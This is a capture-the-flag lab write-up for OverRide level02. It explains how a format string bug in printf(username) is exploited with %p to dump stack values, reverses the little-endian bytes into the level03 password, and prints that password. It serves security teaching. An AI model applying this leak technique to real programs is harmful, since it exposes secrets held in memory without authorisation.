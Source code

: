 ### Download binary
``scp -P4242 level02@192.168.31.33:/home/users/level02/level02 ~/Bureau/``

----

### Decompilation with ghidra
We disasemble the main, to search for a breach.

---

### Main function analysis (refer to source code)

By analyzing the source code we see that the program store the content of the flag in the stack. We will then try to read the content of the stack. Our way to read the stack is to use a format string attack on this printf :

 `printf(username);`

By using the specificier '%p' rather than a username we will be able to read the stack. We also know that the password is 40 character long with this line of code :

 `bytes_read = fread(flag, 1, 41, file);`

**(40 char + 1 '\0')**

We made a little bash script **find_flag.sh** to print all the value present on the stack. We then just have to launch the script and we get this output :

``chmod +x find_flag.sh``

``level02@OverRide:/tmp$ ./find_flag.sh``
>1 - 0x7fffffffe0d0 does not have access!      // non printable / adress  
>[...nil...]  
>4 - 0x2a2a2a2a2a2a2a2a does not have access!  // ********  
>5 - 0x2a2a2a2a2a2a2a2a does not have access!  // ********  
>6 - 0x7fffffffe2c8 does not have access!      // non printable / adress  
>7 - 0x1f7ff9a08 does not have access!         // non printable  
>[...nil...]  
>20 - 0x100000000 does not have access!        // non printable  
>[...nil...]  
>22 - 0x756e505234376848 does not have access! // unPR47hH -> Hh74RPnu | **H**  
>23 - 0x45414a3561733951 does not have access! // EAJ5as9Q -> Q9sa5JAE | **E**  
>24 - 0x377a7143574e6758 does not have access! // 7zqCWNgX -> XgNWCqz7 | **R**  
>25 - 0x354a35686e475873 does not have access! // 5J5hnGXs -> sXGnh5J5 | **E**  
>26 - 0x48336750664b394d does not have access! // H3gPfK9M -> M9KfPg3H | **!**  
>[...nil...]  
>28 - 0x383225202d203832 does not have access! // 82% - 82 -> 28 - %28 |

We see that there is a bunch of character that could look like a flag. We must reverse the character that we got because it is wrote in little endian.

After appending all piece of flag we get :
`Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`

----

### Bypassing security

``level02@OverRide:~$ su level03``
``Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H``
>
>RELRO           STACK CANARY      NX            PIE             RPATH
>RUNPATH      FILE
>Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No >RUNPATH
